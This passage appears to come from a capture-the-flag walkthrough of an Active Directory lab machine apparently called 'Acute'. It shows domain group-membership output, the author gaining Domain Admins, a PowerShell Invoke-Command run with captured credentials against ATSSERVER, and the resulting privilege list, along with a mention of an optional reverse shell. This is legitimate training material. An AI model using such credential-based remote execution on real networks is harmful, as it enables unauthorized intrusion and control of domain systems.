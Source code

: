 ```shell
ACUTE\Site_Admin                             Group            S-1-5-21-1786406921-1914792807-2072761762-2102 Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group             
ACUTE\Denied RODC Password Replication Group Alias            S-1-5-21-1786406921-1914792807-2072761762-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```

I'm a member of `Domain Admins` group now!

**We can also get a reverse shell as `Domain Admins` on `ATSSERVER` (`awallace` with `Site_Admin` domain group, Optional).**

**Since we're a member of `Domain Admins` group, we don't need to supply `dc_manage` configuration anymore!**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ScriptBlock { whoami /priv }

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
```